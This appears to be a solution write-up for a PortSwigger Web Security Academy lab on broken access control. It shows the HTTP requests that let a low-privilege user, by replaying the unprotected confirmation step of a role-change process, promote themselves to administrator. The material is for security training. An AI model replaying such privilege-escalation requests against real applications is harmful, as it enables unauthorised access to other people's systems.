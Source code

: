 # [Lab 12: Multi-step process with no access control on one step](https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step)

---

## Description

This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.

To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed [access controls](https://portswigger.net/web-security/access-control) to promote yourself to become an administrator.

---

## Solution

Login with the credential `administrator`:`admin` and navigate to the `Admin Panel`. Walk through the process of ugprading `carlos` to understand how the process works.

On the admin panel, the first step is choosing `carlos` and clicking `Upgrade User`, generating the following HTTP request.

```http
POST /admin-roles HTTP/1.1
Host: acae1f7a1fc12d74c035621300f50045.web-security-academy.net
Cookie: session=uRBa87aZ9W0Ne3Qa8p8XL4C5JG54RoJW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acae1f7a1fc12d74c035621300f50045.web-security-academy.net
Referer: https://acae1f7a1fc12d74c035621300f50045.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

username=carlos&action=upgrade
```

This results in a 200 OK response from the server and a page prompting the administrator to confirm their choice.

![](images/Pasted%20image%2020220209165027.png)

Selecting `Yes` generates the following HTTP request.

```http
POST /admin-roles HTTP/1.1
Host: acae1f7a1fc12d74c035621300f50045.web-security-academy.net
Cookie: session=uRBa87aZ9W0Ne3Qa8p8XL4C5JG54RoJW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://acae1f7a1fc12d74c035621300f50045.web-security-academy.net
Referer: https://acae1f7a1fc12d74c035621300f50045.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

action=upgrade&confirmed=true&username=carlos
```

This results in a 302 redirect to `/admin`, indicating a successful upgrade.

The two requests are virtually identical except for the extra body parameter `confirmed=true` in the second request. For this multi-step access control process to work properly, the backend would have to be authorize both requests and make sure they are happening in proper sequence. However, the current implementation makes it seem like the backend really requires the `confirmed=true` parameter to complete the upgrade.

The question is whether the same request can be executed successfully as a lower-privileged user. Logout and log back in with the credential `wiener`:`peter`. Forward the above request but with `wiener`'s `session` cookie and with `username` set to `wiener`.

```http
POST /admin-roles HTTP/1.1
Host: acae1f7a1fc12d74c035621300f50045.web-security-academy.net
Cookie: session=2dQElSa7nPv1PdeiToNd3rdDxtgVKlgT
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://acae1f7a1fc12d74c035621300f50045.web-security-academy.net
Referer: https://acae1f7a1fc12d74c035621300f50045.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

action=upgrade&confirmed=true&username=wiener
```

This results in a 302 redirect and indication of a successful completion.
